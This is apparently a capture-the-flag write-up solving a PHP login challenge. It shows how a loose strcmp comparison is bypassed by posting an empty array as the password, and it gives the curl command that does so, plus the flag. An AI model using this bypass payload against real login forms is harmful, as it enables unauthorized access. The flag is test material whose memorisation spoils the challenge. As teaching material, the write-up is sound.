 ## Solve:

- [ ] View the source code and see a debug option
  http://206.189.59.199:8003/?debug

  ```php
  if (isset($_POST['password'])) {
    if (strcmp($_POST['password'], $flag) == 0)
  ```
  
<br>

- [ ] See that the password is compared with the flag using `strcmp` and brings up 2 problems:<br>
    - The comparation uses only 2 equal signs `==`, meaning it only checks that the values are equal, whereas the proper way would be to use 3 equal signs `===`, so it checks for both value and type.
    - For older versions, strcmp is vulnerable: it can compare an empty array to a value and return `0` (True)
    
<br> 

- [ ] Send a HTTP POST request in which the `password` argument is an empty **array**, then extract the flag.
  ```bash
  curl -s -X POST 'http://206.189.59.199:8003/' -d 'username=admin&password[]=&submit=Login' \
  | tail -n1 | awk -F'Flag: ' '{print $2}' | cut -d' ' -f1
  ```

<br>

## Flag:
**`flag{byp455_7h3_c0mp4r4710n}`**
